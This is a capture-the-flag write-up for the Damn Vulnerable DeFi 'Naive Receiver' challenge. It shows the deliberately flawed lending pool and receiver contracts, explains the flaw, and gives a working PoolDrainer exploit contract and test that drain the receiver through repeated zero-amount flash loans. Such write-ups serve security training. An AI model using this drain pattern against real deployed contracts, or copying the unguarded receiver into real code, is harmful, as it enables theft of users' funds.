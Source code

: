 ```yaml
---
layout: post
title: 'Damn Vulnerable Defi 2: Naive Receiver'
category: Damn Vulnerable Defi
excerpt_separator:  <!--more-->
---
```


### Challenge:
Our second challenge is called 'naive receiver' and it comes with the following prompt:

```
There's a lending pool offering quite expensive flash loans of Ether, which has 1000 ETH in balance.

You also see that a user has deployed a contract with 10 ETH in balance, capable of interacting with the lending pool and receiveing flash loans of ETH.

Drain all ETH funds from the user's contract. Doing it in a single transaction is a big plus ;)
```

Our goal therefore is to drain all ETH funds from the user's deployed contract!

The contracts for this challenge are located in contracts/naive-receiver/. The contract code can be found below:

<details>
<summary> FlashLoanReceiver.sol:</summary>
<br>
<div markdown="1">
```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";

/**
 * @title FlashLoanReceiver
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract FlashLoanReceiver {
    using Address for address payable;

    address payable private pool;

    constructor(address payable poolAddress) {
        pool = poolAddress;
    }

    // Function called by the pool during flash loan
    function receiveEther(uint256 fee) public payable {
        require(msg.sender == pool, "Sender must be pool");

        uint256 amountToBeRepaid = msg.value + fee;

        require(address(this).balance >= amountToBeRepaid, "Cannot borrow that much");
        
        _executeActionDuringFlashLoan();
        
        // Return funds to pool
        pool.sendValue(amountToBeRepaid);
    }

    // Internal function where the funds received are used
    function _executeActionDuringFlashLoan() internal { }

    // Allow deposits of ETH
    receive () external payable {}
}
```
</div>
</details>

<details>
<summary> NaiveReceiverLenderPool.sol:</summary>
<br>
<div markdown="1">
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "@openzeppelin/contracts/utils/Address.sol";

/**
 * @title NaiveReceiverLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract NaiveReceiverLenderPool is ReentrancyGuard {

    using Address for address;

    uint256 private constant FIXED_FEE = 1 ether; // not the cheapest flash loan

    function fixedFee() external pure returns (uint256) {
        return FIXED_FEE;
    }

    function flashLoan(address borrower, uint256 borrowAmount) external nonReentrant {

        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= borrowAmount, "Not enough ETH in pool");


        require(borrower.isContract(), "Borrower must be a deployed contract");
        // Transfer ETH and handle control to receiver
        borrower.functionCallWithValue(
            abi.encodeWithSignature(
                "receiveEther(uint256)",
                FIXED_FEE
            ),
            borrowAmount
        );
        
        require(
            address(this).balance >= balanceBefore + FIXED_FEE,
            "Flash loan hasn't been paid back"
        );
    }

    // Allow deposits of ETH
    receive () external payable {}
}
```
</div>
</details>


The hints and solutions for this level can be found below:

<details>
<summary> Hint 1:</summary>
<br>
<div markdown="1">
```
We are only concerned with draining the funds from the FlashLoanReceiver (borrower) contract. Is there a way we can make the borrower contract pay more than they should for a loan? 
```
</div>
</details>


<details>
<summary> Hint 2:</summary>
<br>
<div markdown="1">
What is weird about the way the amount to be repaid is calculated in `receiveEther()`?
</div>
</details>


<details>
<summary> Solution:</summary>
<br>
<div markdown="1">
``` 
The problem is twofold

1. Anybody can call a flashLoan on the receiver's behalf by passing in their address as the borrower parameter for the flashLoan() function in the lending pool contract.
2. The FlashLoanReceiver does not perform any checks on whether the transaction actually makes financial sense for the receiver. They accept the flash loan, perform an action, and then, regardless of the outcome of that transaction, repay the borrowed amount + a fixed fee of 1 eth. 


With this in mind, we can see that we can force the flash loan receiver to spend 1 eth per flash loan. This can be achieved by passing in the flash loan receiver's contract address and a borrow amount of 0 to the flashLoan() function in the lending pool contract.


Doing so will call functionCallWithValue() on the flash loan receiver with a callvalue of 0 eth and fee parameter of 1 eth.


To put this all into a single transaction, we could simply write our own contract that would call the flashLoan function as described above 10 times. 
```

</div>
</details>

<details>
<summary> Ethers Hint:</summary>
<br>
<div markdown="1">
We want to deploy a contract and then call a function in that contract that will in turn call `flashLoan()`. Much of this code can be cannabalized from the `before` function in `naive-receiver-challenge.js`.
</div>
</details>

<details>
<summary> Ethers Solution:</summary>
<br>
<div markdown="1">
```
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */   
        const PoolDrainerFactory = await ethers.getContractFactory('PoolDrainer', deployer);
        this.drainer = await PoolDrainerFactory.deploy(this.pool.address);
        await this.drainer.attack(this.receiver.address, 0);
    });

```
</div>
</details>

<details>
<summary> Contract Solution:</summary>
<br>
<div markdown="1">
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

/*
 * @title PoolDrainer.sol
 * @author securerodd
 */
 interface INaiveReceiverLenderPool { 
   function flashLoan(address,uint256) external;
}

contract PoolDrainer {

    INaiveReceiverLenderPool public pool;
    constructor(address _poolAddress) {
        pool = INaiveReceiverLenderPool(_poolAddress);
    }

    function attack(address _victim, uint256 _amount) external {
        for (uint i; i != 10; ++i) {
            pool.flashLoan(_victim, _amount);
        }
    }

}

```
</div>
</details>